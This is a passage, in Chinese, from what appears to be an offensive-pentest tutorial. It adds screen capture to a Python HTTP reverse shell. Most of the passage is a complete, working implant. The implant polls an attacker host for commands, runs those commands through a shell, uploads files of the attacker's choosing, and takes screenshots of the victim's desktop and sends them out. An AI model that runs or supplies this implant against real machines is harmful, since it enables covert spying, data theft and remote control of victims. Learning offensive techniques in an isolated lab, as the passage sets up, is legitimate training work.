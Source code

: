 在这一节中，我们将自动化捕获目标机器的屏幕截图并通过 HTTP 反向 Shell 获取它。从目标`桌面`获取屏幕截图可以帮助我们查看目标端正在进行的程序和活动。在 Metasploit Meterpreter 中，有一个名为**`screengrab()`**的功能，它将从目标机器拍摄快照并将其传回攻击者的机器。所以在这里，我们将在现有的 HTTP shell 中做类似的操作。为此，我们将在目标机器上使用一个名为`Pillow`的库。这是一个 Python 的高级图像处理库。安装过程非常简单，你只需要通过`cmd`运行`pip install Pillow`即可。

在执行此操作之前，请确保你有互联网连接。安装完这个库后，我将进入 VirtualBox 中的“设备|网络|网络设置...”，并像上一章中一样将网络模式改回内部网络。我们还将为目标分配静态 IP 地址，以便能够连接到攻击者机器。

确保我们通过 ping 攻击者的 IP 地址与其建立了连接。

在我们的 HTTP 代码中，我们首先导入库。所以我们导入`ImageGrab()`函数，并需要添加一个新的`if`语句，表示如果收到`screencap`关键字，那么我们将拍摄快照并将其保存到当前工作目录，文件名为`img.jpg`。然后，我们会将其传输回攻击者机器：

```
# Python For Offensive PenTest

# Screen Capturing

import requests 
import subprocess 
import os
import time

from PIL import ImageGrab # Used to Grab a screenshot

while True: 

    req = requests.get('http://10.0.2.15')
    command = req.text

    if 'terminate' in command:
        break

    elif 'grab' in command:
        grab,path=command.split('*')
        if os.path.exists(path):
            url = 'http://10.0.2.15/store'
            files = {'file': open(path, 'rb')}
            r = requests.post(url, files=files)
        else:
            post_response = requests.post(url='http://10.0.2.15', data='[-] Not able to find the file !' )

    elif 'screencap' in command: #If we got a screencap keyword, then .. 
        ImageGrab.grab().save("img.jpg", "JPEG")
        url = 'http://10.0.2.15/store' 
        files = {'file': open("img.jpg", 'rb')}
        r = requests.post(url, files=files) #Transfer the file over our HTTP

    else:
        CMD = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        post_response = requests.post(url='http://10.0.2.15', data=CMD.stdout.read() )
        post_response = requests.post(url='http://10.0.2.15', data=CMD.stderr.read() )

    time.sleep(3)
```
